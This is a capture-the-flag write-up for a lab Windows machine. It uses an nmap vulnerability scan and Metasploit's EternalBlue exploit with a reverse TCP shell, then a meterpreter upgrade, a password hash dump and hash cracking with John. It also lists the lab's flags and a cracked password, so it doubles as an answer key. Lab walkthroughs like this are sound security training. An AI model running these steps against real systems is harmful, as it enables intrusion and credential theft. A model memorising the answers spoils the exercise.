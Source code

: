 
# Recon

1. How many ports are open with a port number under 1000?
	1. 3
2. What is this machine vulnerable to?
	1.  ms17-010

Both questions can be answered by running the following scan `sudo nmap -sV -sC --script vuln -p-1000 10.10.134.188`

# Gain Access

1. Find the exploitation code we will run against the machine. What is the full path of the code?
	1. `search MS17=010`: exploit/windows/smb/ms17_010_eternalblue
2. Show options and set the one required value. What is the name of this value?
	1. `show options`: RHOSTS

We set the current context to the vuln we want to exploit. We then just set the RHOSTS value and update the LHOST to the `tun0` interface if using a VPN. The lab also asks that we set the payload to `windows/x64/shell/reverse_tcp`. After this is all done we just run the command `exploit` to get a reverse shell on the target machine.

# Escalate

1. What is the name of the post module we will use to switch to a meterpreter shell?
	1. Can be found by searching for "meterpreter" with a type of "post": post/multi/manage/shell_to_meterpreter
	2. Can also just run `sessions -u -1` to upgrade the last used session
2. what option are we required to change?
	1. `show options`: SESSION

We're also asked to migrate to a different process, listing out the processes with `ps` we see that "spoolsv.exe" is running and can leverage that or other running services.

# Cracking

1. What is the name of the non-default user
	1. `hashdump`: Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
2. What is the cracked password
	1. `john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt`: alqfna22

# Find Flags

1. Flag1? This flag can be found at the system root.
	1. flag{access_the_machine}
2. Flag2? This flag can be found at the location where passwords are stored within Windows.
	1. flag{sam_database_elevated_access}
3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
	1. flag{admin_documents_can_be_valuable}

Worth noting that all of the flags can easily be found using `search -f flag*.txt`
